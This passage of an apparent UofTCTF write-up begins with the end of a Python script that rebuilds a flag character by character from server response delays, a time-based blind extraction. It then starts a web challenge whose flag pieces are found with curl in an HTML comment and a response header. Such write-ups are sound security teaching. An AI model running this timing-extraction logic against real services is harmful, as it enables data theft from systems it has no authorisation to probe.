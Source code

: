 ```python
        if res.status_code != 200:
            continue
        seconds = res.elapsed.total_seconds()
        if seconds > timeout:
            possible_flag += char
            print("Building Flag:", possible_flag)
            if char == "}":
                print("flag?")
                break
    if bool(re.match(r"^uoftctf\{.*\}$", possible_flag)):
        break
print(possible_flag)
```

> For the longest time, I forgot to use `re.escape()`, so the regex would break when it encountered “?”.

**Output**: ![Script output screenshot](https://imgur.com/tmucn4V.png)

-----
### Scavenger Hunt - 100

> 499 Solves  

[http://34.150.251.3:3000/](http://34.150.251.3:3000/)

The flag is divided into several parts, which are spread throughout the website:

---

```bash
curl -s http://34.150.251.3:3000/ | grep uof
```

> `-s` means silent; in this case, it prevents the progress bar from appearing.

**Response:**

```html
<!-- part 1: uoftctf{ju57_k33p_ -->
```

**Flag 1/7:** `uoftctf{ju57_k33p_`

---

```bash
curl --head -s http://34.150.251.3:3000/
```

> `--head` means to show only the server's response header.

**Response:**

```bash
HTTP/1.1 200 OK
X-Powered-By: Express
X-Flag-Part2: c4lm_4nd_
Set-Cookie: user=guest; Path=/; HttpOnly
Content-Type: text/html; charset=utf-8
Content-Length: 2461
Connection: keep-alive
Keep-Alive: timeout=5
```
